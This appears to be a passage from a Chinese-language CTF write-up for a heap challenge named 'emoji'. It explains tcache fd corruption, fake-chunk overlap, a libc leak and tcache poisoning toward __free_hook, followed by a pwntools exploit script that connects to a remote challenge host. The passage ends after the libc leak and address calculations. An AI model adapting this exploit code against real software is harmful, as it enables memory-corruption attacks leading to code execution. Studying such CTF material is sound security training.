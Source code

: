 

可以修改到 tcache chunk fd，因此可以拿到想要 chunk，而再透過建構一個 fake chunk，就能達到 chunk overlap，並且由於 chunk size 為 0x90，因此在填滿 tcache 後能 leak libc，有了 chunk overlap + libc，就可以用 tcache poison 拿到 `__free_hook` chunk，exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# r = remote('193.57.159.27', 42588)
# r = process('./emoji', aslr=False)
# gdb.attach(r, """
# #   b *0x55555555535A
# """)

"""
1) Add new Emoji
2) Read Emoji
3) Delete Emoji
4) Collect Garbage
"""

def add(title, emoji, emoji2):
    r.sendlineafter('> ', '1')
    r.sendafter('Enter title: ', title)
    r.sendafter('Enter emoji: ', emoji)
    sleep(0.1)
    r.send(emoji2)

def _read(idx):
    r.sendlineafter('> ', '2')
    r.sendlineafter('Enter index to read: ', str(idx))

def delete(idx):
    r.sendlineafter('> ', '3')
    r.sendlineafter('Enter index to delete: ', str(idx))

def gc():
    r.sendlineafter('> ', '4')

### leak ###
while True:
    r = remote('193.57.159.27', 42588)
    try:
        for i in range(0x8):
            add(b"\xaa"*0x40 + p64(0) + p64(0x91), b'\xff', b'AAA')
            delete(0)
        add("/bin/sh", b'\xff', b'AAA') # 0, prevent consolidation
        gc()
        add(b"\xaa"*0x40 + p64(0) + p64(0x91), b'\xff', b'AAA\x40\xa7') # 1
        delete(1)
        gc()
        add(b"\xaa"*0x60, b'\xff', b'AAA\x40\xa7') # 1
        _read(1)
        r.recvuntil(b'\xaa'*0x60)
        libc = u64(r.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
        __free_hook = libc + 0x1eeb28
        _system = libc + 0x55410
        info(f"""
        libc: {hex(libc)}
        """)
```